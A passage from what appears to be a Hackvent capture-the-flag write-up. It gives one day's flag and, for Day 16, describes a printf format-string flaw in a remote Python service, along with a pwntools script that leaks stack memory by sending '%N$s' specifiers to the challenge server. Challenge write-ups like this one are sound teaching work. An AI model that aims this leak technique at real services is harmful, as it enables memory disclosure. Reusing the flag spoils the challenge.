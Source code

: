 ![](./15/15_screen04.png)

Then we only have to fetch the image in the browser and scan the QR-code to get the flag:

> HV16-R41n-d33r-8yt3-Fl1p-H4ck


Day 16: Marshmallows
--------------------
Definitely the hardest challenge until now for me but worth the effort!

We are provided with python script (and the source) that run on a remote server. We notice with the challenge hint that the printf function can be abused by using modifiers like %d, %f, %x, %s... And it returns what is on the stack. To access the second part of the challenge (the secret marshmallows) we need to find the token that must be stored somewhere on the stack (at least a reference to this string). Useful resource is [1].

Using pwntools we can create the following script that will enumerate as a string all the memory addresses in a range and restart the connection if the service crashes:
```python
#!/usr/bin/python2

from pwn import *

r = remote('challenges.hackvent.hacking-lab.com', 1033)
trash = r.recvuntil("> ")
for i in range(201, 300):
        try:
                r.sendline("1")
                r.sendline("%" + str(i) + "$s")
                result = r.recvuntil("> ")
                print(str(i) + "\n=====\n" + result)
        except EOFError:
                r = remote('challenges.hackvent.hacking-lab.com', 1033)
                trash = r.recvuntil("> ")
```
